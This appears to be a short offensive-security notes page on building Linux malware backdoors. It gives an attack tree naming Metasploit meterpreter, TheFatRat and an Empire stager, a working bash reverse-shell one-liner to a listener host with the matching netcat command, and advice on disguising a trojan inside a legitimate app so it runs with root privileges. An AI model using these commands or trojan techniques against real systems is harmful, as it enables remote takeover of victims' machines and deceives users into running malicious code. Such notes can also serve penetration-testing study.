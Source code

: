 # Linux malware

## Attack tree

```text
1 Create backdoor
    1.1 Metasploit meterpreter (OR)
    1.2 With TheFatRat (Trodebi) (OR)
    1.2 Powershell stager (usestager multi/bash) 
```

## Notes

Bash is a command language used in Unix & Unix-like operating systems:
* Linux
* Mac OS X
* IOS
* Android

Bash can be used to send a reverse shell to a remote computer. Simplest form:

On the target machine:
```text
$ bash -i >& /dev/tcp/192.168.122.108/8080 0>&1
```

On the kali machine:
```text
# nc -vv -l -p 8080
```

Problems: Executables don’t run by double click and users have to manually change file permission to executable.

Solution :
* Embed evil code in an executable package.
* Use a legitimate app to make the trojan less suspicious.
* One that runs by doubleclicking with root (admin) privileges.

## Cheatsheets

* [Empire wiki](https://bc-security.gitbook.io/empire-wiki/)

## Scripts

* [Nirridit (Evil files)](https://github.com/tymyrddin/nirridit)